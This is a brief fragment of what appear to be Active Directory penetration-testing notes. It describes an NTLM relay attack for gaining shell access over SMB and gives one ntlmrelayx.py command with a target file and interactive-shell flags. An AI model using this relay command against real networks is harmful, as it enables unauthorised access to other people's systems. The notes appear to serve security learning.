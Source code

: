     ![credentials](../assets/img/AD/Screenshot%202024-07-17%20at%2016.07.21.png)

    In another type of relay attack,

    I can gain a shell access by SMB client.

    Here are the processes.

    `ntlmrelayx.py –tf targets.txt –smb2support -i`

    `tf` stands for target file
